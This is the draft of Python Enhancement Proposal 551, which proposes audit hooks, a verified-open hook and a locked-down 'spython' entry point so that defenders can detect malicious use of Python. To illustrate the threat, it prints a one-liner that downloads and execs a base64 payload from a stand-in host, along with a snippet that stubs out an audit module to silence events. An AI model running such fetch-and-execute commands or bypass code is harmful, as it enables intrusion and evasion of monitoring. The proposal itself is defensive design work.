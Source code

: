 PEP: 551
Title: Security transparency in the Python runtime
Version: $Revision$
Last-Modified: $Date$
Author: Steve Dower <steve.dower@python.org>
Status: Draft
Type: Standards Track
Content-Type: text/x-rst
Created: 23-Aug-2017
Python-Version: 3.7
Post-History: 24-Aug-2017 (security-sig), 28-Aug-2017 (python-dev)

Abstract
========

This PEP describes additions to the Python API and specific behaviors
for the CPython implementation that make actions taken by the Python
runtime visible to security and auditing tools. The goals in order of
increasing importance are to prevent malicious use of Python, to detect
and report on malicious use, and most importantly to detect attempts to
bypass detection. Most of the responsibility for implementation is
required from users, who must customize and build Python for their own
environment.

We propose two small sets of public APIs to enable users to reliably
build their copy of Python without having to modify the core runtime,
protecting future maintainability. We also discuss recommendations for
users to help them develop and configure their copy of Python.

Background
==========

Software vulnerabilities are generally seen as bugs that enable remote
or elevated code execution. However, in our modern connected world, the
more dangerous vulnerabilities are those that enable advanced persistent
threats (APTs). APTs are achieved when an attacker is able to penetrate
a network, establish their software on one or more machines, and over
time extract data or intelligence. Some APTs may make themselves known
by maliciously damaging data (e.g., `WannaCrypt
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/WannaCrypt>`_)
or hardware (e.g., `Stuxnet
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?name=Win32/Stuxnet>`_).
Most attempt to hide their existence and avoid detection. APTs often use
a combination of traditional vulnerabilities, social engineering,
phishing (or spear-phishing), thorough network analysis, and an
understanding of misconfigured environments to establish themselves and
do their work.

The first infected machines may not be the final target and may not
require special privileges. For example, an APT that is established as a
non-administrative user on a developer’s machine may have the ability to
spread to production machines through normal deployment channels. It is
common for APTs to persist on as many machines as possible, with sheer
weight of presence making them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their
tracks, the biggest barrier to detection is a lack of insight. System
administrators with large networks rely on distributed logs to
understand what their machines are doing, but logs are often filtered to
show only error conditions. APTs that are attempting to avoid detection
will rarely generate errors or abnormal events. Reviewing normal
operation logs involves a significant amount of effort, though work is
underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that
are already installed on the target machines, since log messages from
these tools are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the
existence of APTs or methods and mitigations that do not apply to this
PEP. For further information about the field, we recommend reading or
watching the resources listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its
prevalence on server and developer machines, its ability to execute
arbitrary code provided as data (as opposed to native binaries), and its
complete lack of internal auditing. This allows attackers to download,
decrypt, and execute malicious code with a single command::

    python -c "import urllib.request, base64;
        exec(base64.b64decode(
            urllib.request.urlopen('http://my-exploit/py.b64')
        ).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being
written to disk (base64 is often sufficient to bypass these checks). It
also bypasses protections such as file access control lists or
permissions (no file access occurs), approved application lists
(assuming Python has been approved for other uses), and automated
auditing or logging (assuming Python is allowed to access the internet
or access another machine on the local network from which to obtain its
payload).

General consensus among the security community is that totally
preventing attacks is infeasible and defenders should assume that they
will often detect attacks only after they have succeeded. This is known
as the "assume breach" mindset. [1]_ In this scenario, protections such
as sandboxing and input validation have already failed, and the
important task is detection, tracking, and eventual removal of the
malicious code. To this end, the primary feature required from Python is
security transparency: the ability to see what operations the Python
runtime is performing that may indicate anomalous or malicious use.
Preventing such use is valuable, but secondary to the need to know that
it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical

One example of a scripting engine that has addressed these challenges is
PowerShell, which has recently been enhanced towards similar goals of
transparency and prevention. [2]_

Generally, application and system configuration will determine which
events within a scripting engine are worth logging. However, given the
value of many logs events are not recognized until after an attack is
detected, it is important to capture as much as possible and filter
views rather than filtering at the source (see the No Easy Breach video
from `Further Reading`_). Events that are always of interest include
attempts to bypass auditing, attempts to load and execute code that is
not correctly signed or access-controlled, use of uncommon operating
system functionality such as debugging or inter-process inspection
tools, most network access and DNS resolution, and attempts to create
and hide files or configuration settings on the local machine.

To summarize, defenders have a need to audit specific uses of Python in
order to detect abnormal or malicious usage. Currently, the Python
runtime does not provide any ability to do this, which (anecdotally) has
led to organizations switching to other languages. The aim of this PEP
is to enable system administrators to deploy a security transparent copy
of Python that can integrate with their existing auditing and protection
systems.

On Windows, some specific features that may be enabled by this include:

* Script Block Logging [3]_
* DeviceGuard [4]_
* AMSI [5]_
* Persistent Zone Identifiers [6]_
* Event tracing (which includes event forwarding) [7]_

On Linux, some specific features that may be integrated are:

* gnupg [8]_
* sd_journal [9]_
* OpenBSM [10]_
* syslog [11]_
* auditd [12]_
* SELinux labels [13]_
* check execute bit on imported modules

On macOS, some features that may be used with the expanded APIs are:

* OpenBSM [10]_
* syslog [11]_

Overall, the ability to enable these platform-specific features on
production machines is highly appealing to system administrators and
will make Python a more trustworthy dependency for application
developers.

Overview of Changes
===================

True security transparency is not fully achievable by Python in
isolation. The runtime can audit as many events as it likes, but unless
the logs are reviewed and analyzed there is no value. Python may impose
restrictions in the name of security, but usability may suffer.
Different platforms and environments will require different
implementations of certain security features, and organizations with the
resources to fully customize their runtime should be encouraged to do
so.

The aim of these changes is to enable system administrators to integrate
Python into their existing security systems, without dictating what
those systems look like or how they should behave. We propose two API
changes to enable this: an Audit Hook and Verified Open Hook. Both are
not set by default, and both require modifications to the entry point
binary to enable any functionality. For the purposes of validation and
example, we propose a new ``spython``/``spython.exe`` entry point
program that enables some basic functionality using these hooks.
**However, security-conscious organizations are expected to create their
own entry points to meet their own needs.**

Audit Hook
----------

In order to achieve security transparency, an API is required to raise
messages from within certain operations. These operations are typically
deep within the Python runtime or standard library, such as dynamic code
compilation, module imports, DNS resolution, or use of certain modules
such as ``ctypes``.

The new C APIs required for audit hooks are::

   # Add an auditing hook
   typedef int (*hook_func)(const char *event, PyObject *args);
   int PySys_AddAuditHook(hook_func hook);

   # Raise an event with all auditing hooks
   int PySys_Audit(const char *event, PyObject *args);

   # Internal API used during Py_Finalize() - not publicly accessible
   void _Py_ClearAuditHooks(void);

The new Python APIs for audit hooks are::

   # Add an auditing hook
   sys.addaudithook(hook: Callable[str, tuple]) -> None

   # Raise an event with all auditing hooks
   sys.audit(str, *args) -> None


Hooks are added by calling ``PySys_AddAuditHook()`` from C at any time,
including before ``Py_Initialize()``, or by calling
``sys.addaudithook()`` from Python code. Hooks are never removed or
replaced, and existing hooks have an opportunity to refuse to allow new
hooks to be added (adding an audit hook is audited, and so preexisting
hooks can raise an exception to block the new addition).

When events of interest are occurring, code can either call
``PySys_Audit()`` from C (while the GIL is held) or ``sys.audit()``. The
string argument is the name of the event, and the tuple contains
arguments. A given event name should have a fixed schema for arguments,
and both arguments are considered a public API (for a given x.y version
of Python), and thus should only change between feature releases with
updated documentation.

When an event is audited, each hook is called in the order it was added
with the event name and tuple. If any hook returns with an exception
set, later hooks are ignored and *in general* the Python runtime should
terminate. This is intentional to allow hook implementations to decide
how to respond to any particular event. The typical responses will be to
log the event, abort the operation with an exception, or to immediately
terminate the process with an operating system exit call.

When an event is audited but no hooks have been set, the ``audit()``
function should include minimal overhead. Ideally, each argument is a
reference to existing data rather than a value calculated just for the
auditing call.

As hooks may be Python objects, they need to be freed during
``Py_Finalize()``. To do this, we add an internal API
``_Py_ClearAuditHooks()`` that releases any ``PyObject*`` hooks that are
held, as well as any heap memory used. This is an internal function with
no public export, but it triggers an event for all audit hooks to ensure
that unexpected calls are logged.

See `Audit Hook Locations`_ for proposed audit hook points and schemas,
and the `Recommendations`_ section for discussion on
appropriate responses.

Verified Open Hook
------------------

Most operating systems have a mechanism to distinguish between files
that can be executed and those that can not. For example, this may be an
execute bit in the permissions field, or a verified hash of the file
contents to detect potential code tampering. These are an important
security mechanism for preventing execution of data or code that is not
approved for a given environment. Currently, Python has no way to
integrate with these when launching scripts or importing modules.

The new public C API for the verified open hook is::

   # Set the handler
   typedef PyObject *(*handler_func)(const char *narrow,
                                     const wchar_t *wide)
   int Py_SetOpenForExecuteHandler(handler_func handler)

The new public Python API for the verified open hook is::

   # Open a file using the handler
   os.open_for_exec(pathlike)

The ``os.open_for_exec()`` function is a drop-in replacement for
``open(pathlike, 'rb')``. Its default behaviour is to open a file for
raw, binary access - any more restrictive behaviour requires the use of
a custom handler. (Aside: since ``importlib`` requires access to this
function before the ``os`` module has been imported, it will be
available on the ``nt``/``posix`` modules, but the intent is that other
users will access it through the ``os`` module.)

A custom handler may be set by calling ``Py_SetOpenForExecuteHandler()``
from C at any time, including before ``Py_Initialize()``. However, if a
handler has already been set then the call will fail. When
``open_for_exec()`` is called with a handler set, the handler will be
passed the processed narrow or wide path, depending on platform, and its
return value will be returned directly. The returned object should be an
open file-like object that supports reading raw bytes. This is
explicitly intended to allow a ``BytesIO`` instance if the open handler
has already had to read the file into memory in order to perform
whatever verification is necessary to determine whether the content is
permitted to be executed.

Note that these handlers can import and call the ``_io.open()`` function
on CPython without triggering themselves.

If the handler determines that the file is not suitable for execution,
it should raise an exception of its choice, as well as raising any other
auditing events or notifications.

All import and execution functionality involving code from a file will
be changed to use ``open_for_exec()`` unconditionally. It is important
to note that calls to ``compile()``, ``exec()`` and ``eval()`` do not go
through this function - an audit hook that includes the code from these
calls will be added and is the best opportunity to validate code that is
read from the file. Given the current decoupling between import and
execution in Python, most imported code will go through both
``open_for_exec()`` and the log hook for ``compile``, and so care should
be taken to avoid repeating verification steps.

.. note::
   The use of ``open_for_exec()`` by ``importlib`` is a valuable first
   defence, but should not be relied upon to prevent misuse. In
   particular, it is easy to monkeypatch ``importlib`` in order to
   bypass the call. Auditing hooks are the primary way to achieve
   security transparency, and are essential for detecting attempts to
   bypass other functionality.

API Availability
----------------

While all the functions added here are considered public and stable API,
the behavior of the functions is implementation specific. The
descriptions here refer to the CPython implementation, and while other
implementations should provide the functions, there is no requirement
that they behave the same.

For example, ``sys.addaudithook()`` and ``sys.audit()`` should exist but
may do nothing. This allows code to make calls to ``sys.audit()``
without having to test for existence, but it should not assume that its
call will have any effect. (Including existence tests in
security-critical code allows another vector to bypass auditing, so it
is preferable that the function always exist.)

``os.open_for_exec(pathlike)`` should at a minimum always return
``_io.open(pathlike, 'rb')``. Code using the function should make no
further assumptions about what may occur, and implementations other than
CPython are not required to let developers override the behavior of this
function with a hook.

Audit Hook Locations
====================

Calls to ``sys.audit()`` or ``PySys_Audit()`` will be added to the
following operations with the schema in Table 1. Unless otherwise
specified, the ability for audit hooks to abort any listed operation
should be considered part of the rationale for including the hook.

.. csv-table:: Table 1: Audit Hooks
   :header: "API Function", "Event Name", "Arguments", "Rationale"
   :widths: 2, 2, 3, 6
   
   ``PySys_AddAuditHook``, ``sys.addaudithook``, "", "Detect when new
   audit hooks are being added."
   ``_PySys_ClearAuditHooks``, ``sys._clearaudithooks``, "", "Notifies
   hooks they are being cleaned up, mainly in case the event is
   triggered unexpectedly. This event cannot be aborted."
   ``Py_SetOpenForExecuteHandler``, ``setopenforexecutehandler``, "", "
   Detects any attempt to set the ``open_for_execute`` handler."
   "``compile``, ``exec``, ``eval``, ``PyAst_CompileString``,
   ``PyAST_obj2mod``", ``compile``, "``(code, filename_or_none)``", "
   Detect dynamic code compilation, where ``code`` could be a string or
   AST. Note that this will be called for regular imports of source
   code, including those that were opened with ``open_for_exec``."
   "``exec``, ``eval``, ``run_mod``", ``exec``, "``(code_object,)``", "
   Detect dynamic execution of code objects. This only occurs for
   explicit calls, and is not raised for normal function invocation."
   ``import``, ``import``, "``(module, filename, sys.path,
   sys.meta_path, sys.path_hooks)``", "Detect when modules are
   imported. This is raised before the module name is resolved to a
   file. All arguments other than the module name may be ``None`` if
   they are not used or available."
   ``code_new``, ``code.__new__``, "``(bytecode, filename, name)``", "
   Detect dynamic creation of code objects. This only occurs for
   direct instantiation, and is not raised for normal compilation."
   "``_ctypes.dlopen``, ``_ctypes.LoadLibrary``", ``ctypes.dlopen``, "
   ``(module_or_path,)``", "Detect when native modules are used."
   ``_ctypes._FuncPtr``, ``ctypes.dlsym``, "``(lib_object, name)``", "
   Collect information about specific symbols retrieved from native
   modules."
   ``_ctypes._CData``, ``ctypes.cdata``, "``(ptr_as_int,)``", "Detect
   when code is accessing arbitrary memory using ``ctypes``"
   ``id``, ``id``, "``(id_as_int,)``", "Detect when code is accessing
   the id of objects, which in CPython reveals information about
   memory layout."
   ``sys._getframe``, ``sys._getframe``, "``(frame_object,)``", "Detect
   when code is accessing frames directly"
   ``sys._current_frames``, ``sys._current_frames``, "", "Detect when
   code is accessing frames directly"
   ``PyEval_SetProfile``, ``sys.setprofile``, "", "Detect when code is
   injecting trace functions. Because of the implementation, exceptions
   raised from the hook will abort the operation, but will not be
   raised in Python code. Note that ``threading.setprofile`` eventually
   calls this function, so the event will be audited for each thread."
   ``PyEval_SetTrace``, ``sys.settrace``, "", "Detect when code is
   injecting trace functions. Because of the implementation, exceptions
   raised from the hook will abort the operation, but will not be
   raised in Python code. Note that ``threading.settrace`` eventually
   calls this function, so the event will be audited for each thread."
   ``_PyEval_SetAsyncGenFirstiter``, ``sys.set_async_gen_firstiter``, "
   ", "Detect changes to async generator hooks."
   ``_PyEval_SetAsyncGenFinalizer``, ``sys.set_async_gen_finalizer``, "
   ", "Detect changes to async generator hooks."
   ``_PyEval_SetCoroutineWrapper``, ``sys.set_coroutine_wrapper``, "
   ", "Detect changes to the coroutine wrapper."
   ``Py_SetRecursionLimit``, ``sys.setrecursionlimit``, "
   ``(new_limit,)``", "Detect changes to the recursion limit."
   ``_PyEval_SetSwitchInterval``, ``sys.setswitchinterval``, "
   ``(interval_us,)``", "Detect changes to the switching interval."
   "``socket.bind``, ``socket.connect``, ``socket.connect_ex``,
   ``socket.getaddrinfo``, ``socket.getnameinfo``, ``socket.sendmsg``,
   ``socket.sendto``", ``socket.address``, "``(address,)``", "Detect
   access to network resources. The address is unmodified from the
   original call."
   ``socket.__init__``, "socket()", "``(family, type, proto)``", "
   Detect creation of sockets. The arguments will be int values."
   ``socket.gethostname``, ``socket.gethostname``, "", "Detect attempts
   to retrieve the current host name."
   ``socket.sethostname``, ``socket.sethostname``, "``(name,)``", "
   Detect attempts to change the current host name. The name argument
   is passed as a bytes object."
   "``socket.gethostbyname``, ``socket.gethostbyname_ex``",
   "``socket.gethostbyname``", "``(name,)``", "Detect host name
   resolution. The name argument is a str or bytes object."
   ``socket.gethostbyaddr``, ``socket.gethostbyaddr``, "
   ``(address,)``", "Detect host resolution. The address argument is a
   str or bytes object."
   ``socket.getservbyname``, ``socket.getservbyname``, "``(name,
   protocol)``", "Detect service resolution. The arguments are str
   objects."
   ``socket.getservbyport``, ``socket.getservbyport``, "``(port,
   protocol)``", "Detect service resolution. The port argument is an
   int and protocol is a str."
   "``_PyObject_GenericSetAttr``, ``check_set_special_type_attr``,
   ``object_set_class``",``object.__setattr__``,"``(object, attr,
   value)``","Detect monkey patching of types and objects. This event
   is raised for the ``__class__`` attribute and any attribute on
   ``type`` objects."
   ``_PyObject_GenericSetAttr``,``object.__delattr__``,"``(object,
   attr)``","Detect deletion of object attributes. This event is raised
   for any attribute on ``type`` objects."
   ``Unpickler.find_class``,``pickle.find_class``,"``(module_name,
   global_name)``","Detect imports and global name lookup when
   unpickling."

TODO - more hooks in ``_socket``, ``_ssl``, others?
* code objects
* function objects

SPython Entry Point
===================

A new entry point binary will be added, called ``spython.exe`` on
Windows and ``spythonX.Y`` on other platforms. This entry point is
intended primarily as an example, as we expect most users of this
functionality to implement their own entry point and hooks (see
`Recommendations`_). It will also be used for tests.

Source builds will build ``spython`` by default, but distributions
should not include it except as a test binary. The python.org managed
binary distributions will not include ``spython``.

**Do not accept most command-line arguments**

The ``spython`` entry point requires a script file be passed as the
first argument, and does not allow any options. This prevents arbitrary
code execution from in-memory data or non-script files (such as pickles,
which can be executed using ``-m pickle <path>``.

Options ``-B`` (do not write bytecode), ``-E`` (ignore environment
variables) and ``-s`` (no user site) are assumed.

If a file with the same full path as the process with a ``._pth`` suffix
(``spython._pth`` on Windows, ``spythonX.Y._pth`` on Linux) exists, it
will be used to initialize ``sys.path`` following the rules currently
described `for Windows
<https://docs.python.org/3/using/windows.html#finding-modules>`_.

When built with ``Py_DEBUG``, the ``spython`` entry point will allow a
``-i`` option with no other arguments to enter into interactive mode,
with audit messages being written to standard error rather than a file.
This is intended for testing and debugging only.

**Log security events to a file**

Before initialization, ``spython`` will set an audit hook that writes
events to a local file. By default, this file is the full path of the
process with a ``.log`` suffix, but may be overridden with the
``SPYTHONLOG`` environment variable (despite such overrides being
explicitly discouraged in `Recommendations`_).

The audit hook will also abort all ``sys.addaudithook`` events,
preventing any other hooks from being added.

**Restrict importable modules**

Also before initialization, ``spython`` will set an open-for-execute
hook that validates all files opened with ``os.open_for_exec``. This
implementation will require all files to have a ``.py`` suffix (thereby
blocking the use of cached bytecode), and will raise a custom audit
event ``spython.open_for_exec`` containing ``(filename,
True_if_allowed)``.

On Windows, the hook will also open the file with flags that prevent any
other process from opening it with write access, which allows the hook
to perform additional validation on the contents with confidence that it
will not be modified between the check and use. Compilation will later
trigger a ``compile`` event, so there is no need to read the contents
now for AMSI, but other validation mechanisms such as DeviceGuard [4]_
should be performed here.

**Restrict globals in pickles**

The ``spython`` entry point will abort all ``pickle.find_class`` events
that use the default implementation. Overrides will not raise audit
events unless explicitly added, and so they will continue to be allowed.

Performance Impact
==================

**TODO**

Full impact analysis still requires investigation. Preliminary testing
shows that calling ``sys.audit`` with no hooks added does not
significantly affect any existing benchmarks, though targeted
microbenchmarks can observe an impact.

Performance impact using ``spython`` or with hooks added are not of
interest here, since this is considered opt-in functionality.


Recommendations
===============

Specific recommendations are difficult to make, as the ideal
configuration for any environment will depend on the user's ability to
manage, monitor, and respond to activity on their own network. However,
many of the proposals here do not appear to be of value without deeper
illustration. This section provides recommendations using the terms
**should** (or **should not**), indicating that we consider it dangerous
to ignore the advice, and **may**, indicating that for the advice ought
to be considered for high value systems. The term **sysadmins** refers
to whoever is responsible for deploying Python throughout your network;
different organizations may have an alternative title for the
responsible people.

Sysadmins **should** build their own entry point, likely starting from
the ``spython`` source, and directly interface with the security systems
available in their environment. The more tightly integrated, the less
likely a vulnerability will be found allowing an attacker to bypass
those systems. In particular, the entry point **should not** obtain any
settings from the current environment, such as environment variables,
unless those settings are otherwise protected from modification.

Audit messages **should not** be written to a local file. The
``spython`` entry point does this for example and testing purposes. On
production machines, tools such as ETW [7]_ or auditd [12]_ that are
intended for this purpose should be used.

The default ``python`` entry point **should not** be deployed to
production machines, but could be given to developers to use and test
Python on non-production machines. Sysadmins **may** consider deploying
a less restrictive version of their entry point to developer machines,
since any system connected to your network is a potential target.
Sysadmins **may** deploy their own entry point as ``python`` to obscure
the fact that extra auditing is being included.

Python deployments **should** be made read-only using any available
platform functionality after deployment and during use.

On platforms that support it, sysadmins **should** include signatures
for every file in a Python deployment, ideally verified using a private
certificate. For example, Windows supports embedding signatures in
executable files and using catalogs for others, and can use DeviceGuard
[4]_ to validate signatures either automatically or using an
``open_for_exec`` hook.

Sysadmins **should** log as many audited events as possible, and
**should** copy logs off of local machines frequently. Even if logs are
not being constantly monitored for suspicious activity, once an attack
is detected it is too late to enable auditing. Audit hooks **should
not** attempt to preemptively filter events, as even benign events are
useful when analyzing the progress of an attack. (Watch the "No Easy
Breach" video under `Further Reading`_ for a deeper look at this side of
things.)

Most actions **should not** be aborted if they could ever occur during
normal use or if preventing them will encourage attackers to work around
them. As described earlier, awareness is a higher priority than
prevention. Sysadmins **may** audit their Python code and abort
operations that are known to never be used deliberately.

Audit hooks **should** write events to logs before attempting to abort.
As discussed earlier, it is more important to record malicious actions
than to prevent them.

Sysadmins **should** identify correlations between events, as a change
to correlated events may indicate misuse. For example, module imports
will typically trigger the ``import`` auditing event, followed by an
``open_for_exec`` call and usually a ``compile`` event. Attempts to
bypass auditing will often suppress some but not all of these events. So
if the log contains ``import`` events but not ``compile`` events,
investigation may be necessary.

The first audit hook **should** be set in C code before
``Py_Initialize`` is called, and that hook **should** unconditionally
abort the ``sys.addloghook`` event. The Python interface is primarily
intended for testing and development.

To prevent audit hooks being added on non-production machines, an entry
point **may** add an audit hook that aborts the ``sys.addloghook`` event
but otherwise does nothing.

On production machines, a non-validating ``open_for_exec`` hook **may**
be set in C code before ``Py_Initialize`` is called. This prevents later
code from overriding the hook, however, logging the
``setopenforexecutehandler`` event is useful since no code should ever
need to call it. Using at least the sample ``open_for_exec`` hook
implementation from ``spython`` is recommended.

Since ``importlib``'s use of ``open_for_exec`` may be easily bypassed
with monkeypatching, an audit hook **should** be used to detect
attribute changes on type objects.

[TODO: more good advice; less bad advice]

Rejected Ideas
==============

Separate module for audit hooks
-------------------------------

The proposal is to add a new module for audit hooks, hypothetically
``audit``. This would separate the API and implementation from the
``sys`` module, and allow naming the C functions ``PyAudit_AddHook`` and
``PyAudit_Audit`` rather than the current variations.

Any such module would need to be a built-in module that is guaranteed to
always be present. The nature of these hooks is that they must be
callable without condition, as any conditional imports or calls provide
more opportunities to intercept and suppress or modify events.

Given its nature as one of the most core modules, the ``sys`` module is
somewhat protected against module shadowing attacks. Replacing ``sys``
with a sufficiently functional module that the application can still run
is a much more complicated task than replacing a module with only one
function of interest. An attacker that has the ability to shadow the
``sys`` module is already capable of running arbitrary code from files,
whereas an ``audit`` module can be replaced with a single statement::

    import sys; sys.modules['audit'] = type('audit', (object,),
        {'audit': lambda *a: None, 'addhook': lambda *a: None})

Multiple layers of protection already exist for monkey patching attacks
against either ``sys`` or ``audit``, but assignments or insertions to
``sys.modules`` are not audited.

This idea is rejected because it makes substituting ``audit`` calls
throughout all callers near trivial.

Flag in sys.flags to indicate "secure" mode
-------------------------------------------

The proposal is to add a value in ``sys.flags`` to indicate when Python
is running in a "secure" mode. This would allow applications to detect
when some features are enabled and modify their behaviour appropriately.

Currently there are no guarantees made about security by this PEP - this
section is the first time the word "secure" has been used. Security
**transparency** does not result in any changed behaviour, so there is
no appropriate reason for applications to modify their behaviour.

Both application-level APIs ``sys.audit`` and ``os.open_for_exec`` are
always present and functional, regardless of whether the regular
``python`` entry point or some alternative entry point is used. Callers
cannot determine whether any hooks have been added (except by performing
side-channel analysis), nor do they need to. The calls should be fast
enough that callers do not need to avoid them, and the sysadmin is
responsible for ensuring their added hooks are fast enough to not affect
application performance.

The argument that this is "security by obscurity" is valid, but
irrelevant. Security by obscurity is only an issue when there are no
other protective mechanisms; obscurity as the first step in avoiding
attack is strongly recommended (see `this article
<https://danielmiessler.com/study/security-by-obscurity/>`_ for
discussion).

This idea is rejected because there are no appropriate reasons for an
application to change its behaviour based on whether these APIs are in
use.

Further Reading
===============


**Redefining Malware: When Old Terms Pose New Threats**
    By Aviv Raff for SecurityWeek, 29th January 2014

    This article, and those linked by it, are high-level summaries of the rise of
    APTs and the differences from "traditional" malware.

    `<http://www.securityweek.com/redefining-malware-when-old-terms-pose-new-threats>`_

**Anatomy of a Cyber Attack**
    By FireEye, accessed 23rd August 2017

    A summary of the techniques used by APTs, and links to a number of relevant
    whitepapers.

    `<https://www.fireeye.com/current-threats/anatomy-of-a-cyber-attack.html>`_

**Automated Traffic Log Analysis: A Must Have for Advanced Threat Protection**
    By Aviv Raff for SecurityWeek, 8th May 2014

    High-level summary of the value of detailed logging and automatic analysis.

    `<http://www.securityweek.com/automated-traffic-log-analysis-must-have-advanced-threat-protection>`_

**No Easy Breach: Challenges and Lessons Learned from an Epic Investigation**
    Video presented by Matt Dunwoody and Nick Carr for Mandiant at SchmooCon 2016

    Detailed walkthrough of the processes and tools used in detecting and removing
    an APT.

    `<https://archive.org/details/No_Easy_Breach>`_

**Disrupting Nation State Hackers**
    Video presented by Rob Joyce for the NSA at USENIX Enigma 2016

    Good security practices, capabilities and recommendations from the chief of
    NSA's Tailored Access Operation.

    `<https://www.youtube.com/watch?v=bDJb8WOJYdA>`_

References
==========

.. [1] Assume Breach Mindset, `<http://asian-power.com/node/11144>`_

.. [2] PowerShell Loves the Blue Team, also known as Scripting Security and
   Protection Advances in Windows 10, `<https://blogs.msdn.microsoft.com/powershell/2015/06/09/powershell-the-blue-team/>`_

.. [3] `<https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>`_

.. [4] `<https://aka.ms/deviceguard>`_

.. [5] AMSI, `<https://msdn.microsoft.com/en-us/library/windows/desktop/dn889587(v=vs.85).aspx>`_

.. [6] Persistent Zone Identifiers, `<https://msdn.microsoft.com/en-us/library/ms537021(v=vs.85).aspx>`_

.. [7] Event tracing, `<https://msdn.microsoft.com/en-us/library/aa363668(v=vs.85).aspx>`_

.. [8] `<https://www.gnupg.org/>`_

.. [9] `<https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>`_

.. [10] `<http://www.trustedbsd.org/openbsm.html>`_

.. [11] `<https://linux.die.net/man/3/syslog>`_

.. [12] `<http://security.blogoverflow.com/2013/01/a-brief-introduction-to-auditd/>`_

.. [13] SELinux access decisions `<http://man7.org/linux/man-pages/man3/avc_entry_ref_init.3.html>`_

Acknowledgments
===============

Thanks to all the people from Microsoft involved in helping make the
Python runtime safer for production use, and especially to James Powell
for doing much of the initial research, analysis and implementation, Lee
Holmes for invaluable insights into the info-sec field and PowerShell's
responses, and Brett Cannon for the restraining and grounding
discussions.

Copyright
=========

Copyright (c) 2017 by Microsoft Corporation. This material may be
distributed only subject to the terms and conditions set forth in the
Open Publication License, v1.0 or later (the latest version is presently
available at http://www.opencontent.org/openpub/).
